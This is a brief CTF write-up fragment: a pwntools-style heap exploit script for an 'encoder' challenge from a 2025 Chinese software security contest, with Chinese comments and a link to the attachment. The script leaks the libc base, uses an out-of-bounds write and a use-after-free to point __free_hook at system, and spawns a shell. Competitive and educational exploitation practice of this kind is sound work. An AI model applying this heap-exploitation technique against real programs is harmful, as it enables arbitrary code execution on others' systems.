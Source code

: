 ```c
upload(0, -1, b'a'*0x10)
upload(0, 0x30, b'a'*0x28+p64(0x51)) #len已经被修改，越界写1，造成chunk_extent
free(1)

upload(1, 0x40, b'a'*0x20+p64(0)+p64(0x461)+b'a'*0x10)  #补0x40个数据 

free(2)
show(1)

ru(b'FileData: ')
a=io.recv(48)
libcbase = get_addr(64) - (0x7f46f398fbe0-0x7f46f37a3000)
system = libcbase + libc.sym['system']
free_hook = libcbase + libc.sym['__free_hook']

upload(4,0x20,b'a'*0x10+b'c'*0x10) 

enc(4)      
enc(3)  
upload(3,0x8,p64(free_hook))    #uaf覆写指针到free_hook
upload(5,0x20,b'/bin/sh\x00'*4)  #构造参数
upload(6,0x20,p64(system)+p64(0)*3) #任意申请内存
free(5)
inter()
```

[附件]([ctf_attachment/算法逆向/2025软件系统安全赛华东赛区/encoder at main · 4ak5ra/ctf_attachment](https://github.com/4ak5ra/ctf_attachment/tree/main/算法逆向/2025软件系统安全赛华东赛区/encoder))

